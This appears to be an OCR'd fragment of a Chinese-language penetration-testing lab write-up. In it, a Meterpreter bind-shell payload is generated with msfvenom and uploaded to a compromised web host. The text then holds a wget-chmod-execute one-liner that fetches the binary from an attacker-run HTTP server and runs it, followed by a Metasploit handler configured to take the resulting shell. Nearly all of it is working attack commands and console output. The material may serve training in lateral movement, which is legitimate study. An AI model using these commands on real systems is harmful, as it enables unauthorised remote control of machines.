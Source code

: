 首先MSF生成木马，通过MSF上传到Web 1中

```
msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=2020 -f elf -o 20.elf
sessions 1
upload /home/tom/20.elf /tmp/20.elf
```

![截图](1f62971246c16c142910692703937d32.png)

```
root@ubuntu:/tmp# python3 -m http.server
------------------------------------------------------------------------------------------------------------
bash-4.3# wget http://192.168.52.10:8000/20.elf;chmod +x 20.elf;./20.elf
-------------------------------------------------------------------------------------------------------------
msf6 exploit(multi/script/web_delivery) > use multi/handler
msf6 exploit(multi/handler) > set payload linux/x64/meterpreter/bind_tcp
payload => linux/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (linux/x64/meterpreter/bind_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LPORT  2020             yes       The listen port
   RHOST  192.168.52.20    no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target



View the full module info with the info, or info -d command.

msf6 exploit(multi/handler) > exploit
```
